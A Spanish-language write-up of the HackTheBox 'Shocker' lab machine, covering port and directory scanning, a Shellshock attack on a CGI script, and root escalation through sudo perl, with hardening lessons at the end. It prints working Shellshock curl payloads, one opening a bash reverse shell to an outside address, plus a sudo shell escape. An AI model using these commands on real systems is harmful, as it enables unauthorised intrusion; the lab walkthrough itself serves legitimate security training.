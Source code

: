 ```yaml
---
title: HackTheBox Shocker
date: 2021-07-18 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/banner.png
  height: 1100
  width: 500  
categories: [HTB Writeups, Linux Easy]
tags: [perl, shellshock, sudo, cgi-bin, gobuster]
---
```


***

**Machine IP** : 10.10.10.56

**DATE**  : 18/07/2021

***

## Matriz de la maquina


Esta matriz nos muestra las características de explotación de la maquina.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/matrix.png)

## Reconocimiento


Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

Usamos el siguiente comando para escanear todos los puertos de una manera rapida.

```bash
nmap -p- --open -T5 -v -n -Pn 10.10.10.56
```

Posteriormente utilizamos este comando con los puertos del anterior escaneo para saber las versiones de cada servicio.

```bash
nmap -sC -sV -n -p2222,80 -Pn 10.10.10.56
```

Nos arroja este resultado:

```bash
~/HTB/shocker  nmap -sC -sV -p80,2222 10.10.10.56                                                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-18 00:02 EDT
Nmap scan report for 10.10.10.56
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.00 seconds
```

Podemos observar dos puertos abiertos, el `2222` que pertenece a `ssh` y el `80` que es un `http`, procederemos a revisar la web que corre en el servicio http y haremos una busqueda de directorio con `gobuster`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/web.png)

Luego de probar varios diccionarios con `gobuster` encontré un directorio interesante.

```bash
gobuster dir -u http://10.10.10.56/ -w /usr/share/wordlists/dirb/small.txt -t 100 -q -e                                                                               
http://10.10.10.56/cgi-bin/             (Status: 403) [Size: 294]

```

Investigando sobre la procedencia de este directorio encontré que se relacionaba con una vulnerabilidad que se llamaba [shellshock](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock).


Leyendo el post anterior entendí como funcionabala vulnerabilidad, entonces utilizé `gobuster` nuevamente con la flag -x para que me busque archivos con extensiones .sh, para encontrar los scripts dentro de este directorio y obtuve `user.sh`.

```bash
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 100 -x sh -q -e 
http://10.10.10.56/cgi-bin/user.sh              (Status: 200) [Size: 126]
```

Haciendo `curl` a la pagina con el comando `whoami` para saber si funciona.

```bash
curl -H "User-agent: () { :;}; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
shelly
```

Vemos que nos responde con el usuario `shelly` ejecutando el comando `whoami`, entonces trataremos de obtener una `reverse shell` con el comando.

```bash
curl -H  "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.18/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Haciendo un `netcat -nlvp 443` en nuestra maquina, obtenemos una `shell reversa` con el usuario `shelly` y el `user.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/usertxt.png)

## Escalamiento de privilegios

Luego de obtener acceso como el usuario david, probé con `sudo -l` para listar los `binarios` que se pueden ejecutar como sudo, se aprecia que se puede ejecutar el binario `perl` con permisos `root`, entonces este vector de ataque ya es conocido.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/sudol.png)

Nos vamos a nuestra mejor amiga [GTFOBINS](https://gtfobins.github.io/gtfobins/perl/#sudo) y encontramos el siguiente comando que llama a una shell como `sudo` con el binario `perl`.

```bash
sudo perl -e 'exec "/bin/sh";'
```

Obtenemos acceso `root` y el `root.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/shocker/roottxt.png)

## Conclusiones

Fue una buena maquina para aprender lecciones puntuales como las siguientes...

Hubo una mala configuración del servidor web. No se me permitía acceder al directorio `/cgi-bin` pero por alguna razón se me permitía acceder al archivo `user.sh` dentro de ese directorio, el administrador debería haber restringido el acceso a todos los archivos del directorio.

Otro detalle es que el servidor web estaba ejecutando comandos bash en un sistema que ejecutaba una versión de Bash que era vulnerable a la vulnerabilidad `Shellshock`, esto nos permitió obtener el acceso inicial al sistema.

El ultimo detalle fue configuración insegura del sistema, siempre hay que ajustarse al `principio de mínimo privilegio` y al concepto de separación de privilegios.

Dar al usuario `sudo` acceso para ejecutar `perl`, me permitió  escalar privilegios.

Recomendaría mantener actualizada las versiones de bash para que no interpete `() { :; };` de una manera erronea.

Evita jugar con la configuración de sudo si no estás seguro de lo que haces y de cómo se puede abusar de ello. Echa un vistazo a `GTFObins` para empezar..

Gracias por leer, Happy hacking and always try harder!
